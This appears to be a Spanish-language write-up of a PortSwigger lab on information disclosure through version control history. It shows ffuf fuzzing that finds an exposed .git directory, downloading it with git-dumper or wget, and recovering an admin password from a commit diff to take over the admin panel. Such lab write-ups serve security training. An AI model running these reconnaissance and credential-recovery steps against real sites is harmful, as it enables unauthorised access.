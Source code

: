 ```yaml
---
title: Information Disclosure Lab 5
date: 2024-12-03 12:26:00 +0800
author: Justice-Reaper
categories:
  - Portswigger
  - Information Disclosure
tags:
  - Information Disclosure
  - Information disclosure in version control history
image:
  path: /assets/img/Information-Disclosure-Lab-5/Portswigger.png
---
```


## Skills

- Information disclosure in version control history

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` `revela` información `sensible` a través de su `historial de control de versiones`. Para `resolver` el laboratorio, `obtén` la `contraseña` del `usuario administrador`, luego `inicia sesión` y `elimina` al `usuario` `carlos`

---
## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Information-Disclosure-Lab-5/image_1.png)

`Fuzzeamos` la `web`, además de hacerlo desde `Burpsuite` podemos usar herramientas como `fuff` desde `consola`

```
# ffuf -c -t 10 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://0a09009203fe839383e93ca700bf000c.web-security-academy.net/FUZZ

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://0a09009203fe839383e93ca700bf000c.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 10
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.git/logs/              [Status: 200, Size: 548, Words: 152, Lines: 19, Duration: 77ms]
.git/index              [Status: 200, Size: 225, Words: 2, Lines: 3, Duration: 132ms]
.git/HEAD               [Status: 200, Size: 23, Words: 2, Lines: 2, Duration: 184ms]
.git/config             [Status: 200, Size: 157, Words: 14, Lines: 9, Duration: 171ms]
.git                    [Status: 200, Size: 1201, Words: 256, Lines: 27, Duration: 199ms]
ADMIN                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 58ms]
Admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 54ms]
Login                   [Status: 200, Size: 3192, Words: 1315, Lines: 64, Duration: 52ms]
admin                   [Status: 401, Size: 2617, Words: 1049, Lines: 54, Duration: 54ms]
analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 52ms]
```

Con `git-dumper` [https://github.com/arthaud/git-dumper.git](https://github.com/arthaud/git-dumper.git) podemos `descargarnos` todo el `.git/` y si queremos una alternativa con `interfaz gráfica` podemos usar `git-cola` [https://github.com/git-cola/git-cola.git](https://github.com/git-cola/git-cola.git)

```
# git-dumper https://0a460009044cee648030a7e300300090.web-security-academy.net/.git/ project
```

Otra alternativa sería `descargarnos` todo usando `wget`

```
# wget -r https://0a460009044cee648030a7e300300090.web-security-academy.net/.git/
```

`Listamos` los `logs`

```
# git log                                          
commit 0de9db705d356593125a122dd61dc2c5b4c059d6 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 8ce2169ffe2532afaddebd8b63c8cedad993e662
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```

`Vemos` el `último commit` y `obtenemos` una `contraseña`

```
# git show 0de9db705d356593125a122dd61dc2c5b4c059d6
commit 0de9db705d356593125a122dd61dc2c5b4c059d6 (HEAD -> master)
Author: Carlos Montoya <carlos@carlos-montoya.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index 26742e2..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=z9xi7od0a1z0ar5c36jz
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```

Nos `logueamos` con las credenciales `administrator:z9xi7od0a1z0ar5c36jz`

![](/assets/img/Information-Disclosure-Lab-5/image_2.png)

Pulsamos sobre `Admin panel` y le `borramos` la `cuenta` al usuario `carlos`

![](/assets/img/Information-Disclosure-Lab-5/image_3.png)
